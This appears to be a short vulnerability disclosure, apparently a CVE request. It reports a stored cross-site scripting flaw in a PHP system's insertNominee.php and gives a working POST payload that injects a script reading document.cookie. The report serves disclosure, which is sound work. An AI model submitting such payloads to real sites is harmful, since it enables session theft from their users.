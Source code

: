 BUG_Author: wengao

Vulnerability File: /lims/insertNominee.php

POST parameter "nominee_id" exists stored cross-site scripting vulnerability

Payload: nominee_id=<script>alert(document.cookie)</script>&client_id=2&name=3&sex=4&birth_date=5&nid=6&relationship=7&priority=8&phone=9

![image](https://github.com/Hanwengao/CVERequests/blob/main/1.png)

Payload will trigger when a user visits on http://localhost/lims/nominee.php

![image](https://github.com/Hanwengao/CVERequests/blob/main/2.png)

